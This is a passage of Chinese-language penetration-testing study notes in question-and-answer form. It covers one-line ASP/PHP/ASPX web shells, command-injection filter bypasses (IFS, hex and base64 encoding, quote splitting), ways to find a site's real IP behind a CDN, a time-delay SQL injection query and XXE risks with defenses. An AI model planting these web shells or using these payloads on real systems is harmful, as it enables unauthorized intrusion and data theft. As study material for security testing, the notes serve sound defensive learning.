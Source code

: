     asp一句话木马：<%execute(request("value"))%>php一句话木马：<?php@eval($_POST[value]);?>变形：<?php$x=$_GET[‘z’];@eval(“$x;”);?>aspx一句话木马：<%@PageLanguage="Jscript"%><%eval(Request.Item["value"])%>

## 23-命令执行漏洞

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8txziapkVbLPNicx8ECQl70Fz1uEJy1avStwpZrwrTIibCWlqd2F1A3IszNMu6X5ky1fCSmAGMbpvoQ%2F640%3Fwx_fmt%3Dpng)

-

    绕过技巧：cat233.txt#管道符号绕过#空格绕过${IFS}#%0a、%09#重定向绕过<<>#变量拼接绕过@kali:$a=c;b=at;c=fl;d=ag;$a$b$c$d#单引号、双引号绕过ca''tflagcat""flag#编码绕过$(printf"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")==>cat/flag#{printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0==>cat/flag#$(printf"\154\163")==>ls$(printf"\154\163")#查看等价替换(1)more:一页一页的显示档案内容(2)less:与more类似，但是比more更好的是，他可以[pgdn][pgup]翻页(3)head:查看头几行(4)tac:从最后一行开始显示，可以看出tac是cat的反向显示(5)tail:查看尾几行(6)nl：显示的时候，顺便输出行号(7)od:以二进制的方式读取档案内容(8)vi:一种编辑器(9)vim:一种编辑器(10)sort:可以查看(11)uniq:可以查看(12)file-f:报错出具体内容#反斜线绕过c\atfl\ag#内敛注释绕过#`命令`和$(命令)都是执行命令的方式echo"m0re`catflag`"echo"m0re$(catflag)"#base64编码绕过`echo"Y2F0IGZsYWc="|base64-d`#绕过长度限制#>命令会将原有文件内容覆盖echo'123'>xxoo.txt#>>符号的作用是将字符串添加到文件内容末尾，不会覆盖原内容echo'233'>>xxoo.txt#命令换行绕过ca\a\

## 0x01.渗透思路篇

## 00-拿到目标站以后的渗透思路？

    

    渗透测试流程：1.项目前期准备工作2. 信息收集：whois、网站源IP、旁站、C段网站、服务器系统版本、容器版本、程序版本、数据库类型、二级域名、防火墙、维护者信息3. 漏洞扫描：Nessus, AWVS4. 手动挖掘：逻辑漏洞5.验证漏洞6.修复建议7.（如果有）基线检查/复验漏洞8.输出报告

## 01-如何绕过CDN查真实IP？

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fmmbiz.qpic.cn%2Fmmbiz_png%2FcbYIBjX6JJ8txziapkVbLPNicx8ECQl70FyfZ2KAQY3vjic89LpEYibT5hnDso6nx1Bt06iaEcFhEbtIesxhiaSo5U4Q%2F640%3Fwx_fmt%3Dpng)

-

    1.多地ping看是否有cdn2.邮件订阅或者rss订阅3.二级域名可能不会做cdn4.nslookuphttp://xxx.com国外dns5.查找域名历史解析记录，因为域名在上CDN之前用的IP，很有可能就是CDN的真实源IP地址6.phpinfo上显示的信息7.cloudflaregithub可以获取真实IP8.一个网站有icon可以根据iconhash来查找真实IP9.子域名绑定测试子域可能回源

## 02-sleep函数被禁用后怎么进行sql注入？

    BENCHMARK，Get_lock函数，当都被禁用后可以用计算量比较大的语句使数据库查询时间变长，从而达到延时注入的效果。mysql：`AND (SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.SCHEMATA C);`

## 03-哪些地方存在xxe？架构问题？

    xxe常见场景是如pdf在线解析、word在线解析、定制协议，留言板等，跟逻辑设计有关而与语言无关，最好是不要让XML作为参数传输或整体结构可被用户篡改。如果一定要使用，至少要禁用DTD、Entity。xxe危害读取本地文件，执行系统命令，探测内网端口，攻击内网服务探测内网端口的协议有gopherfiledict，不同语言支持不同的协议，是具体情况而定filehttpftp是常用的防范，python用lxml时可以对resolve_entities设为false。或者过滤用户提交的xml客户端也可以有xxe攻击，有的网站会使用office打开docx进行解析Java解析XML的常用三方库，如果不禁用DTD、Entity都会导致XXE漏洞：javax.xml.stream.XMLStreamReader;javax.xml.parsers.DocumentBuilderFactory;

## 04-如何绕过Http-only？
